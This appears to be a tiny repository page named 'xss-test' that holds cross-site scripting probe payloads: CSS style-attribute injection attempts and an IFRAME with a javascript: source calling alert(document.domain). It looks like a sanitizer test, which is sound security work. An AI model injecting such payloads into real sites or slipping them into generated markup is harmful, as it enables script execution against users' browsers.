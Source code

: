 # xss-test
xss



<div style="font-family:'foo&#10;;color:red;';">XXX

<div style="font-family:foo}color=red;">HOLA


```

<!-- xss-Here -->
<!-- xss-Here -->
<!-- xss-Here -->
<!-- xss-Here -->

<IFRAME SRC="javascript:javascript:alert(document.domain);"></IFRAME>


```
